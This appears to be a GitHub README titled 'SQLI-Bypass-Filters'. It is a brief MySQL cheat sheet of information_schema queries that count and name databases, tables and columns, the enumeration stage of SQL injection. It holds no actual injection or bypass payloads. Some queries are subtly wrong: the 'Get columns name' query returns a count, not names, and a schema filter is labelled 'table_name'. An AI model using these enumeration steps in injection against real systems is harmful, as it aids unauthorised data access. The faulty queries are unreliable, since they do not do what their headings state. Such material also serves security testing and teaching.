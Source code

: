 # SQLI-Bypass-Filters

# MYSQL

## Databases 

### Count number of database
```sql
SELECT count(DISTINCT(table_schema)) FROM information_schema.tables; 
```
### Get database name
```sql
SELECT DISTINCT table_schema FROM information_schema.tables LIMIT 1,1; # LIMIT 1 to result of count -1
```

## Tables

### Count number of tables
```sql
SELECT COUNT(TABLE_NAME) FROM information_schema.tables WHERE TABLE_SCHEMA = "table_name"; 
```

### Get table name
```sql
SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA = "table_name" LIMIT 0,1; # LIMIT 0 to result of count
```

## Columns

### Count number of columns
```sql
SELECT COUNT(COLUMN_NAME) FROM information_schema.columns WHERE TABLE_SCHEMA = "database_name" AND TABLE_NAME = "table_name"; 
```

### Get columns name
```sql
SELECT COUNT(COLUMN_NAME) FROM information_schema.columns WHERE TABLE_SCHEMA = "database_name" AND TABLE_NAME = "table_name" LIMIT 0,1; # LIMIT 0 to result of count
```
